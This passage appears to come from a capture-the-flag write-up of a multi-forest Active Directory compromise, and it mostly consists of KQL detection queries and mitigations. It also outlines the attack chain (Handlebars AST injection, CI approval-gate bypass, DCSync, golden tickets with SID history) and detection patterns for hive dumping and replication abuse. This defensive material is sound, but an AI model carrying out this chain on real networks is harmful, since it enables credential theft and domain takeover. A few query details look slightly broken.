  > [SSH as domain user josh] -> [SOCKS + Kerberos tunnel] -> [Gitea RepoAudit] ->
  > [CI approval-gate bypass] -> [svc-runner RCE] -> [user.txt] -> [CREATE_CHILD OU abuse] ->
  > [ksu name-mapping] -> [local root SRV01] -> [leaked SQL backup] -> [celia DA] ->
  > [DCSync darkzero.ext] -> [golden ticket + SID history] -> [cross-realm referral] ->
  > [Backup Operators reg backup DC01] -> [DC01$ hash] -> [DCSync darkzero.htb] -> [root.txt]

* **2.3 Theoretical Analogy:** The attacker finds a side door into the building (the AST-injection bug) that the architects never knew existed, since it bypasses the lock entirely rather than picking it. Inside, a reused master key (the DB password) opens a door to the staff network. A flaw in the building's work-order approval process (the CI approval gate) lets the attacker get a maintenance worker (the CI runner) to do their bidding without a supervisor's sign-off. A quirk in how the building assigns staff badges (Kerberos name mapping) lets the attacker forge a badge that happens to say "Building Manager" (root). A discarded old employee roster (the SQL backup) reveals a director's credentials. Finally, a loosely guarded bridge between this building and a neighboring one (the forest trust) lets the attacker walk across carrying a forged access card that the neighboring building's security accepts because it doesn't check IDs below a certain badge number.

### Attack Vector (Mechanics)

#### Core Mechanism

| Attribute               | Technical Details                                                                                                                                    |
|:-------------------------|:---------------------------------------------------------------------------------------------------|
| **Primary Identifiers**  | `Handlebars.compile()` accepting arbitrary AST objects, DB/AD password reuse, Gitea `ifNeedApproval()` event-scoping gap, MIT `ksu` name mapping, `CREATE_CHILD` OU delegation, `TREAT_AS_EXTERNAL` forest trust, `Backup Operators` nesting. |
| **Critical Weakness**    | **Chained trust boundaries** - application input trusted as a compile-time AST, a password trusted across two credential stores, a CI event trusted without a uniform approval check, a Kerberos principal name trusted for local account mapping, and a forest trust trusted to filter SIDs correctly. |
| **Offensive Technique**  | Template-engine code injection -> credential reuse pivot -> CI/CD logic-flaw RCE -> Kerberos-native local privesc -> historical-data credential leak -> cross-forest golden ticket with SID history. |

#### Prerequisites

* **Initial Access:** Network access to the web application (`dzcampaigns.htb`) and knowledge of the target's exact Handlebars version to validate the AST-injection payload offline.
* **Credentials:** None required for initial RCE; subsequent stages recover all needed credentials via the chain itself.
* **CI/CD State:** Gitea Actions enabled on the target repository, with a fork-PR approval gate implemented only for the `pull_request` event.
* **Directory Access:** A domain-joined Linux host reachable from the initial foothold, with `CREATE_CHILD` delegated on at least one OU to a service account in the compromise path.
* **Trust State:** A cross-forest trust configured as `TREAT_AS_EXTERNAL`, degrading SID filtering to allow RID ≥ 1000 SIDs to cross forest boundaries.

### Threat Hunting & Detection Engineering (KQL)

[Forensics.ps1](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/DarkZeroReturns/Forensics.ps1 "Results")

[attack_chain_20260816_125111_Pulled.zip](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/DarkZeroReturns/attack_chain_20260816_125111.zip "Results")




#### Data Sources

| Data Source              | ADX Table       | Primary Use                                                                 |
||---------------------------|-----------------|-----------------------------------------------------------------------------
| Windows Security          | `DRZSecurity`   | Authentication, Kerberos, AD object changes, trust modifications, privileges |
| Windows Directory Service | `DRZDrService`  | NTDS / Directory Service - replication (DCSync) events                       |
| Windows Sysmon            | `DZRSysmon`     | Process, network, file, registry, named-pipe activity on the DCs             |
| Windows System            | `DRZSystem`     | Service installs, boot/time events, driver loads                             |
| Windows Application       | `DRZApplication`| Application/WER-style events (low relevance to this chain)                   |




#### Relevant Event IDs (this chain)

| Event ID | Activity                                          | Table          |
|:--------:|:--------------------------------------------------|:---------------|
| 4720     | User account created                              | `DRZSecurity`  |
| 4738     | User account changed                              | `DRZSecurity`  |
| 5136     | AD object modified                                | `DRZSecurity`  |
| 5137     | AD object created                                 | `DRZSecurity`  |
| 4672     | Special privileges assigned to new logon           | `DRZSecurity`  |
| 4673     | Sensitive privilege use (e.g. `SeBackupPrivilege`) | `DRZSecurity`  |
| 4624     | Successful logon                                  | `DRZSecurity`  |
| 4625     | Failed logon                                      | `DRZSecurity`  |
| 4768     | Kerberos TGT requested                            | `DRZSecurity`  |
| 4769     | Kerberos service ticket requested                 | `DRZSecurity`  |
| 4771     | Kerberos pre-authentication failed                | `DRZSecurity`  |
| 4706/4707| Trust created / removed                           | `DRZSecurity`  |
| 4662     | Operation performed on an AD object (incl. DS-Replication-Get-Changes) | `DRZSecurity` / `DRZDrService` |
| 11       | File created (Sysmon)                             | `DZRSysmon`    |
| 1        | Process created (Sysmon)                          | `DZRSysmon`    |

#### Standard Hunting Window

```kql
| where TimeGenerated >= ago(40h)
```

For a specific investigation window:

```kql
| where TimeGenerated between (datetime(2026-08-16 17:00:00) .. datetime(2026-08-16 20:15:00))
```


#### 1. Anomalous AD Account Creation - the `root` User (Step 12–13)

The core detection for the local-privesc pivot: a **new user object named identically to a well-known built-in/local account**, created inside a non-Tier-0 OU by a service account.

```kql
DRZSecurity
| where TimeGenerated >= ago(40h)
| where EventID in ("4720", "5137")
| where SamAccountName in ("root", "admin", "administrator", "system") 
    or ObjectName has_any ("CN=root,", "CN=admin,", "CN=administrator,")
| project TimeGenerated, Computer, EventID, SubjectUserName, SubjectUserSid,
          SamAccountName, ObjectName, ObjectType, PrivilegeList
| order by TimeGenerated desc
```

Expected hit for this engagement:

```
SubjectUserName: svc-runner
SamAccountName:  root
ObjectName:      CN=root,OU=GiteaMigration,DC=darkzero,DC=ext
```

A service account (`svc-runner`) creating a domain user is itself anomalous - service accounts should never appear as `SubjectUserName` on `4720`/`5137` events.

#### 2. Delegated `CREATE_CHILD` Abuse - OU Write by a Non-Admin Principal

```kql
DRZSecurity
| where TimeGenerated >= ago(40h)
| where EventID == "5136"
| where ObjectName has "OU=GiteaMigration"
| project TimeGenerated, Computer, SubjectUserName, SubjectUserSid,
          ObjectName, ObjectType, OperationType, Operation
| order by TimeGenerated desc
```

Broaden to any OU write by an account that is not a member of a Tier-0 admin group - this requires joining against a known-privileged-account list, but as a first pass:

```kql
DRZSecurity
| where TimeGenerated >= ago(40h)
| where EventID in ("5136", "5137")
| where ObjectType has_any ("organizationalUnit", "user")
| where SubjectUserName !in ("Administrator", "krbtgt") and SubjectUserName !endswith "$"
| summarize Writes = count(), Objects = make_set(ObjectName, 10) by SubjectUserName
| order by Writes desc
```

#### 3. `SeBackupPrivilege` Use Against a Domain Controller (Step 19)

`Backup Operators` membership (via nested `InfrastructureAdministrators`) is what enabled the SAM/SYSTEM/SECURITY hive backup on DC01. Privileged-token assignment followed by actual sensitive-privilege use is the key correlation:

```kql
DRZSecurity
| where TimeGenerated >= ago(40h)
| where EventID == "4672"
| where PrivilegeList has "SeBackupPrivilege"
| project TimeGenerated, Computer, SubjectUserName, SubjectUserSid, PrivilegeList
| order by TimeGenerated desc
```



```kql
DRZSecurity
| where TimeGenerated >= ago(40h)
| where EventID == "4673"
| where PrivilegeList has_any ("SeBackupPrivilege", "SeRestorePrivilege")
| project TimeGenerated, Computer, SubjectUserName, SubjectUserSid, ObjectName, ProcessName
| order by TimeGenerated desc
```

Correlate with **registry hive file creation** on the same host (the `reg save` output landing in `C:\Windows\Temp`):

```kql
DZRSysmon
| where TimeGenerated >= ago(40h)
| where EventID == "11"
| where TargetFilename has_any ("SAM", "SYSTEM", "SECURITY")
| where TargetFilename has @"Windows\Temp"
| project TimeGenerated, Computer, User, Image, TargetFilename
| order by TimeGenerated desc
```





Expected hit: `TargetFilename` under `C:\Windows\Temp\*` on `DC01`, `Image` pointing at `reg.exe` or an unusual remote-invoked process, `User` resolving to `celia` - a Domain Admin from the **other** forest, which is itself the anomaly worth alerting on.

#### 4. Cross-Forest / SID History Anomalies (Step 17–18)

Kerberos tickets carrying an `Extra-SID`/`SidHistory` the requesting principal should not legitimately have are the fingerprint of the forged golden ticket. `DRZSecurity` exposes `SidHistory` and `SidFilteringEnabled` directly on relevant events:

```kql
DRZSecurity
| where TimeGenerated >= ago(40h)
| where EventID in ("4768", "4769")
| where isnotempty(SidHistory)
| project TimeGenerated, Computer, TargetUserName, TargetDomainName,
          SidHistory, SidFilteringEnabled, TicketEncryptionType, TicketOptions, IpAddress
| order by TimeGenerated desc
```

Expected hit: a `4769` for `celia`/`cifs/dc01.darkzero.htb` on `DC01`, with `SidHistory` populated with the `InfrastructureAdministrators` SID (`...-1603`) and `SidFilteringEnabled` reflecting the `TREAT_AS_EXTERNAL` trust configuration.

#### 5. Trust Object / Filtering Configuration Review

While the trust itself pre-existed rather than being created during this engagement, monitoring trust modification events is still valuable - `TdoSid`, `TdoDirection`, `TdoAttributes`, `TdoType` are all first-class fields in `DRZSecurity`:

```kql
DRZSecurity
| where TimeGenerated >= ago(30d)
| where EventID in ("4706", "4707", "4716")
| project TimeGenerated, Computer, SubjectUserName, TdoSid, TdoDirection, TdoAttributes, TdoType, DomainName
| order by TimeGenerated desc
```




`TdoAttributes` should be reviewed against the bitmask for `TRUST_ATTRIBUTE_TREAT_AS_EXTERNAL` (0x00000020) - any trust carrying this flag degrades SID filtering and should be treated as Tier-0-adjacent.

#### 6. DCSync Detection - Directory Replication Requests (Step 16 & 21)

`DRZDrService` (the Directory Service / NTDS channel) is the primary source for replication activity; `DRZSecurity`'s `4662` (object access, with the DS-Replication-Get-Changes / DS-Replication-Get-Changes-All GUIDs in `AccessMask`/`Properties`) is the classic secondary signal:

```kql
DRZSecurity
| where TimeGenerated >= ago(40h)
| where EventID == "4662"
| where Properties has_any (
    "1131f6aa-9c07-11d1-f79f-00c04fc2dcd2",   // DS-Replication-Get-Changes
    "1131f6ad-9c07-11d1-f79f-00c04fc2dcd2",   // DS-Replication-Get-Changes-All
    "89e95b76-444d-4c62-991a-0facbeda640c"    // DS-Replication-Get-Changes-In-Filtered-Set
)
| project TimeGenerated, Computer, SubjectUserName, SubjectUserSid, ObjectName, AccessMask
| order by TimeGenerated desc
```



```kql
DRZDrService
| where TimeGenerated >= ago(40h)
| project TimeGenerated, Computer, EventID, Data_text, Data_text_0, Data_text_1, Data_text_2
| order by TimeGenerated desc
```




Two distinct DCSync events are expected in this engagement: `celia@dc02.darkzero.ext` (step 16, `darkzero.ext`) and `DC01$@dc01.darkzero.htb` (step 21, `darkzero.htb`) - the second one is especially notable because it authenticates with a **machine account hash** rather than a human principal, and immediately follows the registry-hive file creation from query #3.

#### 7. Kerberos Encryption Downgrade / Ticket Forging Indicators

Golden tickets forged offline sometimes carry encryption types or ticket options inconsistent with the domain's actual configuration:

```kql
DRZSecurity
| where TimeGenerated >= ago(40h)
| where EventID == "4768"
| project TimeGenerated, Computer, TargetUserName, TargetDomainName, IpAddress,
          PreAuthType, PreAuthEncryptionType, TicketEncryptionType, TicketOptions
| order by TimeGenerated desc
```





Look for `TargetUserName == "celia"` requests where `IpAddress` does not correspond to a host `celia` would normally authenticate from, or where `PreAuthType` is absent/anomalous (offline-forged tickets skip real pre-authentication against the KDC for the initial AS-REQ leg in some tooling paths).

#### 8. Final Pass-the-Hash - NTLM Logon to DC01 as Administrator (Step 22)

```kql
DRZSecurity
| where TimeGenerated >= ago(40h)
| where EventID == "4624"
| where LogonType == "3"
| where AuthenticationPackageName = "NTLM"
| where TargetUserName == "Administrator"
| project TimeGenerated, Computer, TargetUserName, TargetDomainName, IpAddress,
          WorkstationName, AuthenticationPackageName, RestrictedAdminMode
| order by TimeGenerated desc
```




Correlate immediately afterward with process creation on `DC01` for the WinRM-spawned command (`type root.txt & hostname & whoami`):

```kql
DZRSysmon
| where TimeGenerated >= ago(40h)
| where Computer has "DC01"
| where EventID == "1"
| where ParentImage has_any ("wsmprovhost.exe", "winrshost.exe")
| project TimeGenerated, Computer, User, Image, CommandLine, ParentImage
| order by TimeGenerated desc
```



#### Unified Detection Timeline (Steps 12 -> 22)

```kql
union
(
    DRZSecurity
    | where TimeGenerated >= ago(40h)
    | where EventID in ("4624","4662","4668","4672","4673","4720","4768","4769","5136","5137")
    | extend
        Source = "Security",
        UserName = coalesce(TargetUserName, SubjectUserName),
        Activity = case(
            EventID == "4624", "Logon",
            EventID == "4662", "Object Access (poss. DCSync)",
            EventID == "4672", "Privileged Logon",
            EventID == "4673", "Sensitive Privilege Use",
            EventID == "4720", "Account Created",
            EventID == "4768", "Kerberos TGT",
            EventID == "4769", "Kerberos Service Ticket",
            EventID == "5136", "AD Object Modified",
            EventID == "5137", "AD Object Created",
            strcat("Security Event ", EventID)
        )
    | project TimeGenerated, Computer, UserName, EventID, Source, Activity,
              ObjectName, SidHistory, PrivilegeList, TicketEncryptionType, IpAddress
),
(
    DZRSysmon
    | where TimeGenerated >= ago(40h)
    | where EventID in ("1","11")
    | extend
        Source = "Sysmon",
        UserName = coalesce(User, ParentUser),
        Activity = case(EventID == "1", "Process Creation", EventID == "11", "File Created", "Other")
    | project TimeGenerated, Computer, UserName, EventID, Source, Activity,
              ObjectName = TargetFilename, SidHistory = "", PrivilegeList = CommandLine,
              TicketEncryptionType = "", IpAddress = ""
),
(
    DRZDrService
    | where TimeGenerated >= ago(40h)
    | extend Source = "DirectoryService", UserName = "", Activity = "Replication Event"
    | project TimeGenerated, Computer, UserName, EventID, Source, Activity,
              ObjectName = Data_text, SidHistory = "", PrivilegeList = "",
              TicketEncryptionType = "", IpAddress = ""
)
| order by TimeGenerated desc
```



[Attcaker_Timeline.csv](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/DarkZeroReturns/Attcaker_Timeline.csv "Results")


This pivots the visible half of the chain in one view: **AD object creation -> privileged logon -> sensitive privilege use -> replication event -> Kerberos ticket anomalies -> final NTLM logon** - exactly the sequence steps 12 through 22 produce.

#### High-Priority Hunting Checklist

| Priority | Hunt                                                       | Events            |
|:--------:|:----------------------------------------------------------------------------------------------------------------------|:-------------|
| Critical | Directory replication request outside known DC replication accounts | `4662` (DS-Replication GUIDs) / `DRZDrService` |
| Critical | Kerberos ticket with unexpected `SidHistory`                | `4768` / `4769`   |
| Critical | New user object named after a built-in account (`root`, `admin`) | `4720` / `5137`   |
| Critical | `SeBackupPrivilege`/`SeRestorePrivilege` use on a DC          | `4672` + `4673`   |
| High     | Registry hive file creation under `C:\Windows\Temp`           | Sysmon `11`       |
| High     | NTLM logon (Type 3) for a privileged/built-in account          | `4624`            |
| High     | OU write (`CREATE_CHILD`) by a service account                 | `5136`            |
| Medium   | Trust object modification (`TdoAttributes` incl. TREAT_AS_EXTERNAL) | `4706`/`4707`/`4716` |
| Medium   | Kerberos pre-auth anomalies for a Domain Admin account          | `4768`/`4771`     |

#### Investigation Methodology

1. **Identify the user** - `SubjectUserName`/`TargetUserName` in `DRZSecurity`.
2. **Identify the host** - `Computer` (should resolve to `DC02` or `DC01` for this chain).
3. **Identify the source** - `IpAddress`/`WorkstationName`.
4. **Pivot on the object** - `ObjectName`/`ObjectType` for AD writes; `TargetFilename` in Sysmon for hive dumps.
5. **Pivot on time** - bound the window around the suspected forged-ticket timestamp; remember this engagement involved a =67-minute attacker/DC clock skew, so cross-reference `TimeGenerated` (server-authoritative) rather than any client-reported time.
6. **Correlate across tables** - `DRZSecurity` (identity) -> `DRZDrService` (replication) -> `DZRSysmon` (file/process) is the natural pivot chain for this specific attack path.


### Detection Engineering

* **Application Layer:** Validate that template-engine `compile()`/`render()` calls only ever receive string input from user-controlled fields; reject any JSON body where a "message"/"content" field parses as an object rather than a string before it reaches the template engine.
* **Credential Hygiene:** Alert when a service-account or application database password is reused successfully for a domain logon (correlate app-layer auth logs with `4624`/`4768` domain auth events for matching password hashes where feasible, or simply enforce password-space separation).
* **CI/CD Auditing:** Alert on Actions workflow files with `on:` trigger lists containing more than the standard `push`/`pull_request` pair, especially when committed by a non-maintainer to a fork.
* **AD Object Auditing:** Alert on creation of user objects whose `sAMAccountName` matches a reserved/well-known local or built-in account name (`root`, `admin`, `administrator`) - Event ID `5137`/`4720`.
* **Kerberos Monitoring:** Monitor for TGTs containing Extra-SIDs inconsistent with the requesting account's actual group memberships (golden/diamond ticket indicators); alert on any authentication event where `Backup Operators` (or a group nested under it) appears in the PAC for an account that shouldn't hold that membership.
* **Registry Hive Access:** Alert on `reg save`/`RegSaveKey` targeting `SAM`/`SYSTEM`/`SECURITY` on any Domain Controller, correlated with the authenticating principal's realm of origin (cross-realm authentication to this operation is a strong signal).

### Resilience Test

* **Bypass:** An attacker with access to a different service-account credential pair could reuse them across app/domain boundaries just as effectively; detecting this specific reuse instance does nothing to prevent the underlying pattern.
* **Sub-Rule Countermeasure:** Enforce and monitor **credential-space separation** as a standing control (distinct password policies/rotation for application service accounts vs. domain accounts), rather than relying on detecting any single instance of reuse after the fact.

### Defensive Mitigation

* **Application Security:** Never pass user-controlled JSON directly into a template engine's `compile()` function; validate that template inputs are strings, not objects, before compilation. Pin dependency versions and track CVEs for template engines specifically, not just for obviously "dangerous" libraries.
* **Credential Hygiene:** Application service credentials (database passwords, session secrets) must never be reused for or coincide with real domain account passwords - separate the credential spaces entirely.
* **CI/CD Hardening:** Apply fork-PR approval gates uniformly across **every** event capable of triggering a workflow run (`pull_request`, `pull_request_review`, `pull_request_review_comment`, `issue_comment`, etc.), not just the default `pull_request` event. Patch Gitea to a version with the corrected `ifNeedApproval()` logic.
* **CI Runner Least Privilege:** CI/CD runner service accounts should not hold domain-group memberships beyond what the build strictly requires, and should never have delegated `CREATE_CHILD`/OU-modify rights.
* **LDAP Delegation Review:** Audit all delegated OU permissions (`CREATE_CHILD`, `WRITE_PROPERTY`, etc.) granted to service accounts; combined with a SUID Kerberos `su` utility and a missing `.k5login`, unrestricted object-creation rights are equivalent to direct root/administrator access.
* **`ksu`/Kerberos Name Mapping:** Pin an explicit `.k5login` on any host running SUID `ksu`, restricting which Kerberos principals may authorize as which local accounts, rather than relying on default `krb5_aname_to_localname` behavior.
* **Forest Trust Configuration:** Avoid `TREAT_AS_EXTERNAL` on inter-forest trusts unless strictly required; where used, apply strict SID filtering/quarantine regardless, and treat `Backup Operators` (and any groups nested under it) as Tier-0 in every forest connected by trust.
* **Backup Privilege:** Treat `SeBackupPrivilege`/`Backup Operators` membership as equivalent to Domain Admin - it enables registry hive extraction, which yields machine-account credentials sufficient for DCSync.

### Quick-Action Playbook

| Step | Objective                        | Technique / Concept                                                            |
|:----:|:----------------------------------|:-----------------------------------------------------------------------------------------------------------------------------|
|  1   | **Initial Access**                | **Handlebars AST Injection (CVE-2026-33937)** - hand-built AST bypasses parser sanitization for blind RCE. |
|  2   | **Credential Recovery**           | **`.env` + DB dump** - recover app secrets and bcrypt hashes; crack with John.  |
|  3   | **Lateral Movement**              | **Password Reuse** - cracked app credential doubles as a domain account password. |
|  4   | **Network Pivot**                 | **SOCKS Tunnel + TCP-only Kerberos** - reach the internal AD network past HTB NAT. |
|  5   | **CI/CD Abuse**                   | **Gitea Actions Approval-Gate Bypass** - widen `on:` triggers, fire via `pull_request_review`. |
|  6   | **Local Privilege Escalation**    | **`ksu` + AD Principal Name Mapping** - create AD user `root`, map to local root via SUID `ksu`. |
|  7   | **Credential Discovery**          | **Leaked SQL Backup** - historical DB dump reveals a Domain Admin absent from the live app. |
|  8   | **Domain Compromise**             | **DCSync (`darkzero.ext`)** - full credential dump including `krbtgt` AES key. |
|  9   | **Cross-Forest Escalation**       | **Golden Ticket + SID History** - Extra-SID (RID ≥ 1000) survives `TREAT_AS_EXTERNAL` filtering. |
|  10  | **Second-Forest Compromise**      | **Registry Backup -> DCSync (`darkzero.htb`)** - Backup Operators nesting yields a machine hash, then forest Administrator. |
|  11  | **Full Compromise**               | **Pass-the-Hash / WinRM** - Administrator hash used directly against the second forest's DC. |

**Thanks for a read!**
